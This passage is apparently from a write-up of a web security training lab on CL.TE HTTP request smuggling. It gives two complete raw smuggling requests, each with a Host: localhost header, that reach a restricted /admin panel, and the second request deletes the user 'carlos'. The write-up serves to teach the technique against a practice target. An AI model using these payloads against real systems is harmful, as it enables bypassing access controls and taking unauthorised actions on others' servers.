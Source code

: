 
We can leave here the CL automatic, on this case is a CL.TE so we need to setup the CL, and a 0 for the backend. 
But we need to smuggle a request, there are two thing that we need to pay attention and it is the host, we need to put localhost and the content length on the second request should be enough to include at least 1 character from the next request. 
```
POST / HTTP/1.1
Host:0aa0002a048aa9e989c65651008200b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Finally, here we only change the URL that is aiming to delete carlos

```
POST / HTTP/1.1
Host:0aa0002a048aa9e989c65651008200b0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```